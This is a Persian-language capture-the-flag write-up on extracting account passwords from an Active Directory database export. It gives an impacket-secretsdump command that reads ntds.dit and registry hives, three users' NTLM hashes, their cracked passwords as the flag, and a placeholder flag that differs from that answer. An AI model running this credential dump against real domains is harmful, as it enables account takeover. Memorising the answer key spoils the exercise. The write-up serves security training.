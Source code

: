  استخراج کلمات عبور از اکتیو دایرکتوری
1402-10-14 06:21

یکی از روش های استخراج اطلاعات از اکتیودایرکتوری، استفاده از ابزارهای داخلی آن است. در این بخش بوسیله یکی از ابزارهای داخلی اکتیودایرکتوری، اطلاعات مربوط به اکانت ها استخراج شده است. با بررسی فایل این چالش به سوالات زیر پاسخ دهید.

[information]=(https://challenginno.ir/pdf_challenge/network/password-attack/AD.pdf)

1-این فایل بوسیله چه ابزاری استخراج شده است؟ 

**ntdsutil**

2-کلمه عبور کاربران زیر را بدست آورید:
Ali Ahmadi
Hassan Tavakoli
Mohsen Fadaee
کلمات عبور را به ترتیب و با یک خط فاصله در فلگ وارد نمایید:
12345-123456-123456 


[information]=(/usr/bin/impacket-secretsdump -system SYSTEM -security SECURITY -ntds ntds.dit local
)



a.ahmadi:1106:aad3b435b51404eeaad3b435b51404ee:247abad259a4bd192da8560327f15aa6:::
h.tavakoli:1105:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
m.fadaee:1107:aad3b435b51404eeaad3b435b51404ee:ae974876d974abd805a989ebead86846:::

A@123456-P@ssw0rd-P@ssw0rd1

[information]=(https://crackstation.net/)

